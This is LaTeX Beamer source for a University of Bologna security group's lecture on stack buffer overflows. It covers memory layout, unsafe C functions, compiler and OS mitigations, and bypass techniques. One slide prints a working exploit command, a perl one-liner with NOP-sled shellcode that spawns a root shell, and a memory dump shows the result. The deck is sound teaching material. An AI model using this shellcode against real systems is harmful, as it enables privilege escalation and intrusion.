\documentclass{beamer}
%\usetheme{Madrid}
%\usetheme{Boadilla}
%\usetheme{default}
%\usetheme{Warsaw}
%\usetheme{Frankfurt}
\usetheme{Cesena}
%\usetheme{Bergen}
%\usetheme{Hannover}
%\usecolortheme{dolphin}
%\usetheme{Darmstadt}
%\setbeamertemplate{footline}[page number]
%\setbeamercovered{transparent}
%\setbeamercovered{invisible}
% To remove the navigation symbols from
% the bottom of slides

\usepackage{graphicx}
\usepackage[english]{babel}
\usepackage[utf8]{inputenc}
\usepackage{listings}
\usepackage{xcolor}

\usepackage{url}
\usepackage{multicol}

%\usepackage[pdftex,bookmarks,colorlinks,%
%pdfauthor={Daniele Bellavista},%
%pdftitle={Shellcoding, and introduction},%
%pdftex]{hyperref}
%\usepackage{bm}  % For typesetting bold math (not \mathbold)

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\newcommand{\ccode}{
	\lstset{ language=C, basicstyle=\small, numbers=left, numberstyle=\tiny\color{gray},backgroundcolor=\color{white},frame=single, captionpos=b, breaklines=true,title=\lstname, keywordstyle=\color{blue},commentstyle=\color{dkgreen}, stringstyle=\color{mauve}, escapeinside={\%*}{*} }}

\newcommand{\acode}{
	\lstset{ language={[x86masm]Assembler}, basicstyle=\small, numbers=left, numberstyle=\tiny\color{gray},backgroundcolor=\color{white},frame=single, captionpos=b, breaklines=true,title=\lstname, keywordstyle=\color{blue},commentstyle=\color{dkgreen}, stringstyle=\color{mauve}, escapeinside={\%*}{*} }}

\newcommand{\acodenonu}{
	\lstset{ language={[x86masm]Assembler}, basicstyle=\small, numbers=none, backgroundcolor=\color{white},frame=single, captionpos=b, breaklines=true,title=\lstname, keywordstyle=\color{blue},commentstyle=\color{dkgreen}, stringstyle=\color{mauve}, escapeinside={\%*}{*} }}

\newcommand{\acodesmall}{
	\lstset{ language={[x86masm]Assembler}, basicstyle=\tiny, numbers=none, backgroundcolor=\color{white},frame=single, captionpos=b, breaklines=true,title=\lstname, keywordstyle=\color{blue},commentstyle=\color{dkgreen}, stringstyle=\color{mauve}, escapeinside={\%*}{*} }}

\title[]{Smashing the Stack}

\author[]{Cesena Security Network and Applications}

\institute[CeSeNA]
{
\emph{University of Bologna, Scuola di Ingegneria ed Architettura}\\
\emph{Ingegneria Informatica}
\emph{Scienze e Tecnologie dell'Informazione}
\emph{Ingegneria e Scienze Informatiche}
}

\logo{ 
\includegraphics[height=1cm]{imgs/CeSeNA.png}}

\AtBeginSection[]{ % Do nothing for \section*
	\begin{frame}<beamer>
		\frametitle{Outline}
		\begin{multicols}{2}
			\tableofcontents[current]
		\end{multicols}
	\end{frame}
	\addtocounter{framenumber}{-1}
}

\begin{document}

{
	\setbeamertemplate{footline}{}
	\setbeamertemplate{navigation symbols}{}
	\begin{frame}
	  \titlepage
	\end{frame}
}


\begin{frame}{Outline}
	\begin{multicols}{2}
		\tableofcontents
	\end{multicols}
\end{frame}

% Introduction to registers, stack and function frame
\section{Introduction}
\begin{frame}[fragile, allowframebreaks]{Introduction}
\begin{block}{Acknowledgement}
A special thanks to {\bf CeSeNA Security} group and \emph{Marco Ramilli} our ``old'' mentor...
\end{block}
\end{frame}

\subsection{Smash the stack}
\begin{frame}[fragile, allowframebreaks]{Smash the stack}
\begin{block}{\emph{Smash The Stack} [C programming] n.}
On many C implementations it is possible to corrupt the execution stack by writing past the end of an array declared auto in a routine. Code that does this is said to smash the stack, and can cause return from the routine to jump to a random address. This can produce some of the most insidious data-dependent bugs known to mankind.
\end{block}
\end{frame}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{A brief time line}
\begin{frame}[fragile, allowframebreaks]{A brief time line}
\begin{block}{The fist document Overflow Attack (Air Force) - 31/10/1972}
\emph{``By supplying addresses outside the space allocated to the users
programs, it is often possible to get the monitor to obtain unauthorized
data for that user, or at the very least, generate a set of conditions in
the monitor that causes a system crash.''}
\end{block}

\framebreak

\begin{block}{The morris Worm - 2/11/1988}
Robert Tappan Morris (Jr.) wrote and released this while still a student at Cornell University. Aside from being the first computer worm to be distributed via the Internet, the worm was the public’s introduction to \emph{``Buffer Overflow Attacks''}, as one of the worms attack vectors was a classic stack smash against the \emph{fingerd} daemon.\\
In his analysis of the worm, Eugene Spafford writes the following: ``The bug exploited to break fingerd involved {\bf overrunning the buffer} the daemon used for input. \ldots \\
The idea of using buffer overflow to inject code into a program and cause it to jump to that code occurred to me while reading fingerd.c''
\end{block}

\framebreak

\begin{block}{How to Write Buffer Overflow 20/10/1995}
\emph{by Peiter Zatko (mudge)}\\
``\ldots \\
    The '{\bf Segmentation fault (core dumped)}' is what we wanted to see. This
    tells us there is definitely an attempt to access some memory address
    that we shouldn't. If you do much in 'C' with pointers on a unix
    machine you have probably seen this (or Bus error) when pointing or
    dereferencing incorrectly.\\
\ldots ''
\end{block}

\begin{block}{Smashing The Stack For Fun And Profit 8/11/1996}
\emph{by Elias Levy (Aleph1)}\\
One of the best article about BoF.
\end{block}

\end{frame}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{Process Memory}
\begin{frame}[fragile, allowframebreaks]{Process Memory}

\begin{block}{Buffers, Memory and Process}
To understand what stack buffers are we must first understand how a
program and process are organized.
\end{block}

\begin{itemize}
\item Program layout is divided in sections like:
	\begin{list}{}{}
		\item .text, where program instruction are stored
		\item .data, where program data will be stored
		\item .bss, where static vars are allocated
		\item .stack, where {\bf stack frames} live
	\end{list}
\item These sections are typically mapped in memory segments, so they have associated RWX permissions.
\end{itemize}

\framebreak

\begin{block}{.text}
The text region is fixed by the program and includes code (instructions) and read-only data.  This region corresponds to the text section of the executable file.  This region is normally marked read-only and any attempt to write to it will result in a \emph{segmentation violation}.
\end{block}
\begin{block}{.data .bss}
The data region contains initialized and uninitialized data. Static variables are stored in this region. The data region corresponds to the data-bss sections of the executable file.  Its size can be changed with the \emph{brk(2)} system call.  If the expansion of the bss-data or the user stack exhausts available memory, the process is blocked and is rescheduled to run again with a larger memory space.\\ 
New memory is added between the data and stack segments.
\end{block}

\framebreak

\begin{verbatim}
  /------------------\ higher
  |                  | memory
  |      Stack       | addresses
  |------------------|
  |  (Uninitialized) |
  |        Data      |
  |   (Initialized)  |
  |------------------|
  |       Text       | lower
  |                  | memory
  \------------------/ addresses
\end{verbatim}
\end{frame}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{Stack Frame}
\begin{frame}[fragile, allowframebreaks]{Stack Frame}

\begin{itemize}
\item The stack consists of logical stack frames that are pushed when calling a
function and popped when returning. A stack frame contains the parameters to a
function, its local variables, and the data necessary to recover the previous
stack frame, including the value of the instruction pointer at the time of the
function call.
\item Depending on the implementation the stack will either grow down (towards
lower memory addresses), or up. The stack pointer is also implementation
dependent. It may point to the last address on the stack, or to the next free
available address after the stack. 
\item In addition to the stack pointer, which points to the top of the stack, it
is often convenient to have a frame pointer which points to a fixed location
within a frame. Some texts also refer to it as a local base pointer.
\end{itemize}

\framebreak

\begin{block}{Stack}
In x86 architecture stack grows in opposite direction w.r.t. memory addresses. 
Also two registers are dedicated for stack management.
\begin{description}
\item[EBP/RBP], points to the {\bf base} of the stack-frame (\emph{higher address})
\item[EIP/RIP], points to the {\bf top} of the stack-frame (\emph{lower address})
\end{description}
\end{block}

\framebreak

\begin{block}{Stack Frame}
Logical stack frames that are pushed when calling a function and popped when returning.\\
A stack frame contains:
\begin{itemize}
\item Parameters passed to the called function (depends on calling convention, not true for linux64)
\item {\bf Data necessary to recover the previous stack frame, including value of the instruction pointer at the time of the function call}.
\item Local variables
\end{itemize}
\end{block}

\framebreak

%TODO: add stack-frame picture
TODO: Stack Frame Pitcure here

\framebreak

\begin{block}{Call Prologue and Epilogue}
\begin{columns}[c] 
    \column{.5\textwidth} 
    \acode
    \tiny
\begin{lstlisting}
;params passing*
call fun ;it push EIP/RIP
push EBP
mov EBP,ESP
sub ESP,<param-space>
\end{lstlisting}
    \column{.5\textwidth}
     \acode
     \tiny
\begin{lstlisting}
mov ESP,EBP
pop EBP ;restore old EBP/RBP
ret ;pop EIP/RIP

\end{lstlisting}
\end{columns}
\end{block}


\end{frame}

% What is a buffer overflow and how to
\section{Buffer Overflows}
%\begin{frame}{Buffer Overflows}
%Bufferoverflow
%*Stack based / Heap based (just a slide)
%*EBP+4 (or RBP+8)
%*Unsafe functions (that ones which permit a buffer overrun)
%*(quick Example ?)
%\end{frame}

%\subsection{What is BOF?}
\begin{frame}[fragile,allowframebreaks]{What is BOF?}
	\begin{figure}
		\centering
		
\includegraphics[height=.7\textheight]{imgs/segfault.png}
		\caption{BOF segmentation fault}
		\label{fig:segfault}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
			Segmentation fault
		\end{verbatim}
	\end{block}
\end{frame}
\begin{frame}[fragile,allowframebreaks]{How to use BOF?}
	\begin{figure}
		\centering
		
\includegraphics[height=.7\textheight]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note `perl -e 'printf("\x90" x 153 .
    "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50
     \x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50
     \x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01
     \xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{verbatim}
	\end{block}
\end{frame}

\subsection{Unsafe functions}
\begin{frame}[fragile,allowframebreaks]{Unsafe functions}
\begin{block}{Unsafe C functions}
	\begin{itemize}
		\item \emph{gets()}: replace it with \emph{fgets()} or \emph{gets\_s()}
		\item \emph{strcpy()}: replace it with \emph{strncpy()} or \emph{strlcpy()}
		\item \emph{strcat()}: replace it with \emph{strncat()} or \emph{strlcat()}
		\item \emph{sprintf()}: replace it with \emph{snprintf()}
		\item \emph{printf()}: improper use of it can lead to exploitation, never call it with variable char* instead of constant char*.
	\end{itemize}
	Essentially, every C functions that don't check the size of the destination buffers
\end{block}
\end{frame}

\subsection{Basic Overflow}
\begin{frame}[fragile,allowframebreaks]{Basic Overflow}
	In the following example, a program has defined two data items which are adjacent in memory: an 8-byte-long string buffer, A, and a two-byte integer (short), B. Initially, A contains nothing but zero bytes, and B contains the number 1979. Characters are one byte wide.
	\ccode
	\begin{lstlisting}
	char A[8] = {0,0,0,0,0,0,0,0};
	short B = 1979;
	\end{lstlisting}
	\begin{figure}
		\centering
		
\includegraphics[width=\textwidth]{imgs/initialAB.png}
		\caption{A and B variables initial state}
		\label{fig:initialAB}
	\end{figure}
\framebreak
	Now, the program attempts to store the null-terminated string "excessive" in the A buffer. "excessive" is 9 characters long, and A can take 8 characters. By failing to check the length of the string, it overwrites the value of B
	\ccode
	\begin{lstlisting}
	gets(A);
	\end{lstlisting}
	\begin{figure}
		\centering
		
\includegraphics[width=\textwidth]{imgs/finalAB.png}
		\caption{A and B variables final state}
		\label{fig:finalAB}
	\end{figure}
\end{frame}

\subsection{Heap-based Overflow}
\begin{frame}[fragile,allowframebreaks]{Heap-based Overflow}
	Heap-based overflow is a type of buffer overflow that occurs in the heap data area. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data.\\
\begin{columns}[T]
	\begin{column}{.47\textwidth}
%	\begin{block}{A quick look}
		%Heap overflows are exploitable in a different manner to that of stack-based overflows.\\
		Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers.\\
		The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as malloc meta data) and uses the resulting pointer exchange to overwrite a program function pointer.
%	\end{block}
	\end{column}
	\begin{column}{.5\textwidth}
		
\includegraphics[width=\textwidth]{imgs/heap.png}
		\label{fig:heap}
	\end{column}
\end{columns}
\end{frame}

\subsection{Stack-based Overflow}
\begin{frame}[fragile,allowframebreaks]{Stack-based Overflow}
	Stack-based buffer overflows manipulate the program to their advantage in one of several ways:
	\begin{itemize}
		\item By overwriting a local variable that is near the buffer in memory on the stack to change the behaviour of the program which may benefit the attacker.
		\item By overwriting a function pointer, or exception handler, which is subsequently executed.
		\item By overwriting the return address in a stack frame. Once the function returns, execution will resume at the return address as specified by the attacker, usually a user input filled buffer.
	\end{itemize}
\framebreak
\begin{columns}[T]
	\begin{column}{.5\textwidth}
	\tiny\begin{block}{./note "This is my sixth note"}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9,
main(): 80484b4, buffer:bffff454,
n_ebp: bffff528, n_esp: bffff450,
m_ebp: bffff538, m_esp: bffff534
        address    hex val   string val
n_esp > bffff450:  bffff450  ?  ?  ?  P
buffer> bffff454:  73696854  s  i  h  T
        bffff458:  20736920     s  i   
        bffff45c:  7320796d  s     y  m
        bffff460:  68747869  h  t  x  i
        bffff464:  746f6e20  t  o  n   
        bffff468:  b7fc0065  ?  ?     e
        ...        ...       ...
        bffff510:  00000000           
        bffff514:  00000000           
endBuf> bffff518:  bffff538  ?  ?  ?  8
        bffff51c:  080487fb        ?  ?
        bffff520:  b7fcaffc  ?  ?  ?  ?
        bffff524:  0804a008        ?  
n_ebp > bffff528:  bffff538  ?  ?  ?  8
n_ret > bffff52c:  080484ee     ?  ?
        bffff530:  bffff709  ?  ?  ?  	
m_esp > bffff534:  b8000ce0  ?        ?
m_ebp > bffff538:  bffff598  ?  ?  ?  ?
m_ret > bffff53c:  b7eb4e14  ?  ?  N  
        bffff540:  00000002	       
	\end{verbatim}
	\end{block}
	\end{column}
	\begin{column}{.5\textwidth}
	\tiny\begin{block}{./note AAAAAAAAAAAAAAAA...}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9
main(): 80484b4, buffer:bffff314
n_ebp: bffff3e8, n_esp: bffff310
m_ebp: bffff3f8, m_esp: bffff3f4
        address    hex val	string val
n_esp > bffff310:  bffff310  ?  ?  ?  
buffer> bffff314:  41414141  A  A  A  A
        bffff318:  41414141  A  A  A  A
        bffff31c:  41414141  A  A  A  A
        bffff320:  41414141  A  A  A  A
        bffff324:  41414141  A  A  A  A
        bffff328:  41414141  A  A  A  A
        ...        ...       ...
        bffff3d0:  41414141  A  A  A  A
        bffff3d4:  41414141  A  A  A  A
endBuf> bffff3d8:  41414141  A  A  A  A
        bffff3dc:  41414141  A  A  A  A
        bffff3e0:  41414141  A  A  A  A
        bffff3e4:  0804a008        ?  
n_ebp > bffff3e8:  41414141  A  A  A  A
n_ret > bffff3ec:  41414141  A  A  A  A
        bffff3f0:  41414141  A  A  A  A
m_esp > bffff3f4:  41414141  A  A  A  A
m_ebp > bffff3f8:  41414141  A  A  A  A
m_ret > bffff3fc:  41414141  A  A  A  A
        bffff400:  41414141  A  A  A  A
Segmentation fault
	\end{verbatim}
	\end{block}
	\end{column}
\end{columns}
\framebreak
\tiny\begin{block}{Overwriting the return address}
	\begin{columns}[T]
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
Memory: addNote(): 80484f9,
main(): 80484b4, buffer:bffff384
n_ebp: bffff458, n_esp: bffff380
m_ebp: bffff468, m_esp: bffff464
        address    hex val   string val
n_esp > bffff380:  bffff380  ?  ?  ?  ?
buffer> bffff384:  90909090  ?  ?  ?  ?
        bffff388:  90909090  ?  ?  ?  ?
        ...        ...       ...
        bffff418:  90909090  ?  ?  ?  ?
        bffff41c:  31db3190  1  ?  1  ?
        bffff420:  b0c031c9  ?  ?  1  ?
        bffff424:  3180cdcb  1  ?  ?  ?
        bffff428:  2f6850c0  /  h  P  ?
        bffff42c:  6868732f  h  h  s  /
        bffff430:  6e69622f  n  i  b  /
        bffff434:  5350e389  S  P  ?  ?
        bffff438:  d231e189  ?  1  ?  ?
        bffff43c:  80cd0bb0  ?  ?     ?
	\end{verbatim}
	\end{column}
	\begin{column}{.4\textwidth}
	\tiny\begin{verbatim}
        bffff440:  01b0db31     ?  ?  1
        bffff444:  909080cd  ?  ?  ?  ?
endBuf> bffff448:  90909090  ?  ?  ?  ?
        bffff44c:  90909090  ?  ?  ?  ?
        bffff450:  90909090  ?  ?  ?  ?
        bffff454:  0804a008     ?  
n_ebp > bffff458:  90909090  ?  ?  ?  ?
n_ret > bffff45c:  bffff388  ?  ?  ?  ?
        bffff460:  bffff600  ?  ?  ?  
m_esp > bffff464:  b8000ce0  ?        ?
m_ebp > bffff468:  bffff4c8  ?  ?  ?  ?
m_ret > bffff46c:  b7eb4e14  ?  ?  N  
        bffff470:  00000002           
sh-3.1# whoami
root
sh-3.1# exit
	\end{verbatim}
	\end{column}
\end{columns}
	\end{block}
\end{frame}

% How to protect against bofs?
\section{Security}
\begin{frame}{Security Against Bofs}
	\begin{block}{How to secure the stack?}
		\begin{itemize}
			\item Various methods and techniques\ldots
			\item \ldots{}and various consideration.
			\item Which programming languages?
			\item How to deal with legacy code?
			\item Need of automatic protection.
		\end{itemize}
	\end{block}
\end{frame}

\subsection{Programming Languages}
\begin{frame}{Security: Programming Language}
	\begin{block}{Do programming languages automatically protect stack?}
		\begin{description}
			\item[C/C++]these languages don't provide built-int protection, but offer
				\emph{stack-safe} libraries (e.g. $strcpy() \implies strncpy()$).
			\item[Java/.NET/Perl/Python/Ruby/\ldots]all these languages provide an
				automatic array bound check: no need for the programmer to care of it.
		\end{description}
		\begin{itemize}
			\item According to \url{www.tiobe.com} C is the most used Programming Language in 2012.
			\item \alert{Legacy code still exists: it can't be rewritten!}
			\item Operating systems and compiler should offer automatic protections.
		\end{itemize}
	\end{block}
\end{frame}


\subsection{StackGuard}
\begin{frame}{Security: StackGuard (1998)}
	\begin{block}{A patch for gcc}
		\begin{columns}
			\begin{column}{.6\textwidth}
				\begin{itemize}
					\item ``A simple compiler technique that virtually eliminates buffer
						overflow vulnerabilities with only modest performance penalties''
						\cite{stackguard}.
					\item It offers a method for detecting in a portable and efficient way
						changes to the return address.
					\item StackGuard uses a random \emph{canary} word inserted before
						the return address. The callee, before returning, checks if the canary
						word is unaltered.
				\end{itemize}
			\end{column}
			\begin{column}{.4\textwidth}
				
\includegraphics[width=\textwidth]{imgs/sec-canary.png}
			\end{column}
		\end{columns}
	\end{block}
\end{frame}

\subsection{Stack-Smashing Protector}
\begin{frame}{Security: GCC Stack-Smashing Protector (2001)}
	\begin{block}{An improved patch for gcc}
		\begin{columns}
			\begin{column}{.5\textwidth}
		\begin{itemize}
			\item Uses canary word (\textbf{guard}) to protect the base pointer.
			\item Relocate all arrays to the top of the stack in order to prevent variable corruption (\textbf{B} before \textbf{C}).
			\item Copies arguments into new variables below the arrays, preventing argument corruption (\textbf{A} copied into \textbf{C}).
			\item SSP is used by default since gcc 4.0 (2010).
		\end{itemize}
			\end{column}
			\begin{column}{.5\textwidth}
				
\includegraphics[width=\textwidth]{imgs/sec-ssp.png}
			\end{column}
		\end{columns}
	\end{block}

\end{frame}

\subsection{ASLR}
\begin{frame}[fragile]{Security: Address space layout randomization ($\sim$ 2002)}
	\begin{block}{A runtime kernel protection}
		\begin{itemize}
			\item Using PIC (position independent code) techniques and kernel aid,
				it's possible to change at every execution the position of stack, code
				and library into the addressing space.
			\item Linux implements ASLR since \emph{2.6.12}. Linux ASLR changes the
				stack position.
			\item Windows has ASLR enabled by default since Windows Vista and Windows
				Server 2008. Window ASLR changes stack, heap and Process/Thread
				Environment Block position.
		\end{itemize}
	\end{block}
\end{frame}

\begin{frame}[fragile]{Security: ASLR example}
	\begin{lstlisting}
	# sysctl -w kernel.randomize_va_space=0
	# for i in {1..5}; do ./aslr ; done
		BP: 0x7fffffffe750
		BP: 0x7fffffffe750
		BP: 0x7fffffffe750
		BP: 0x7fffffffe750
		BP: 0x7fffffffe750
	# sysctl -w kernel.randomize_va_space=1
	# for i in {1..5}; do ./aslr ; done
		BP: 0x7fffe03e49d0
		BP: 0x7fff01cd44a0
		BP: 0x7fff23ac2450
		BP: 0x7fffacc72fc0
		BP: 0x7fffa20fca50
	\end{lstlisting}
\end{frame}

\subsection{DEP}
\begin{frame}{Security: Data Execution Prevention ($\sim$ 2004)}
	\begin{block}{Make a virtual page not executable}
		\begin{itemize}
			\item Hardware support using the NX bit (\emph{N}ever e\emph{X}ecute)
				present in modern 64-bit CPUs or 32-bit CPUs with PAE enabled.
			\item NX software emulation techniques for older CPUs.
			\item First implemented on Linux \emph{2.6.8} and on MS Windows since
				\emph{XP SP2} and \emph{Server 2003}.
			\item Currently implemented by all OS (Linux, Mac OS X, iOS, Microsoft Windows and Android).
		\end{itemize}
	\end{block}
\end{frame}


% How to bypass mitigations
\section{Mitigations Bypass}
\begin{frame}[fragile, allowframebreaks]{Mitigations Bypass}

	\begin{center}\huge
	Are these mitigations enough??
	\end{center}
	
	\begin{block}{Spoiler: NO.}
	\begin{description}
	\item[ASLR bypass] via \emph{multiple input}, \emph{NOP sledge}, \emph{jmp2reg}, \emph{ROP} \ldots
	\item[DEP bypass] via \emph{ret2libc}, \emph{ROP} \ldots
	\item[Stack Cookie bypass] via Exception Handler exploiting (and other techniques which aren't treated here: eg. \emph{Heap-Overflow} \ldots)  
	\end{description}
	\end{block}
	
	\begin{center}
	\emph{This section aims to provide a quick overview on more advanced stack smashing.}
	\end{center}
	
\end{frame}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{Multiple Input and Static Areas}
\begin{frame}[fragile, allowframebreaks]{Multiple Input and Static Areas}

	\begin{block}{Actually, not everything is randomized\ldots}
	Sections like .text or .bss (or some library memory space) are not randomized by ALSR.
	\end{block}
	
	\begin{block}{Expoit multiple input}
	\begin{list}{}{}
	\item If we can put our shellcode into a variable located in these memory areas (eg. \emph{global var}, \emph{static var}, \emph{environment}\ldots) then we should be able to correctly reference it.
	\item Enforcing this kind of attack often require to \emph{provide multiple inputs} (at least one in the stack and another in a not randomized place)
	\end{list}
	\end{block}
	
\end{frame}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{NOP Sledge}
\begin{frame}[fragile, allowframebreaks]{NOP Sledge}
	
	\begin{block}{What if randomization is not truly random?}
	\begin{list}{-}{}
	\item In certain ALSR implementation (for several reasons) randomization 
		might present recurrent set of address.
	\item This enhance our chance to \emph{guess} the right address, but it's not enough
	\end{list}
	\end{block}
	
	\begin{block}{NOP sledge}
	\begin{list}{-}{}
		\item {\bf NOP} (0x90) is the \emph{No OPeration} instruction on x86 ISA
		\item Adding a long NOP prologue to our shellcode increase the valid address range usable to jump to our shellcode.
	\end{list}
	\end{block}

	\framebreak
	
	\begin{figure}
        
\includegraphics[width=0.6\textwidth]{imgs/nop-sledge.png}
        \label{fig:nop-sledge}
        \caption{NOP Sledge role during stack smashing}
    \end{figure}	
	
\end{frame}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{JMP2Register}
\begin{frame}[fragile, allowframebreaks]{JMP2Register}

	\begin{block}{Changing scenario}
	\begin{list}{-}{}
	\item No static memory location
	\item No time to try to guess addresses
	\end{list}
	Try to think at how variables are referenced in Assembly\ldots
	\emph{Var. address could be stored in a register}
	\end{block}
	
	\framebreak
	
	\begin{figure}
        
\includegraphics[width=0.65\textwidth]{imgs/jmp2reg.png}
        \label{fig:jmp2reg}
        \caption{Jmp2reg example with EBX register that contains an address of a stack memory location ({\bf area under attacker control})}
    \end{figure}	
	
	\framebreak
	
	\begin{block}{What If no jmp reg ?}
	Same trick could be exploited with other statements:
	\begin{itemize}
	\item \emph{call reg}
	\item \emph{push reg; ret}
	\item \emph{jmp [reg + offset]}
	\item \emph{pop; ret} if desired address lay on stack (\emph{pop;pop;ret} \emph{pop;pop;pop;ret} and so on)
	\end{itemize}
	\end{block}
	
\end{frame}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{Exception Handler}
\begin{frame}[fragile, allowframebreaks]{Exception Handler}

\begin{itemize}
\item As seen before some stack protection check if the stack as been smashed before function return. So classic ``\emph{overwrite EBP+4}'' does not work.
\item Many languages support custom {\bf exception handling} statement (eg.C++)
\item \emph{May we execute our shellcode instead of user defined handler?}
\end{itemize}

\begin{block}{SEH based stack smashing}
Generally depends on how compiler handle user define Exception Handlers, and in many case its possible (with gcc and VC++ both).\\
%{\bf Here we introduce how to exploit the VC++ SEH (Structured Exception Handler)}
\end{block}

\framebreak
	\begin{figure}
        
\includegraphics[width=0.65\textwidth]{imgs/seh-stack-frame.png}
        \label{fig:seh-stack-frame}
        \caption{Stack frame with SEH under Windows}
    \end{figure}	
%\framebreak
%	\begin{figure}
%        
\includegraphics[width=0.55\textwidth]{imgs/seh-detail.png}
%        \label{fig:seh-detail}
%        \caption{SEH structure (list) under Windows}
%    \end{figure}
   
%\framebreak
%	\begin{figure}
%        
\includegraphics[width=0.6\textwidth]{imgs/seh-exploit.png}
%        \label{fig:seh-exploit}
%        \caption{SEH exploiting under Windows.\\NOTE: during prologue of EH address of pointer to nextSEH was put on stack, so pop;pop;ret; load shellcode addr in EIP}
%    \end{figure}

\end{frame}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\subsection{Ret2libc}
\begin{frame}[fragile, allowframebreaks]{Ret2libc}

\begin{itemize}
\item Now we want to deal with {\bf DEP} countermeasure.
\item As you know no bytes in .data .stack .bss segments can be executed.
\end{itemize}

\begin{block}{What about executing some library code?}
\emph{libc} function \emph{system(char*cmd)} executes the command specified by the string pointed by its parameter. \\
May we craft the stack in a manner to simulate a function call without CALL?
\end{block}

\framebreak
	\begin{figure}
        
\includegraphics[width=0.65\textwidth]{imgs/ret2libc-1.png}
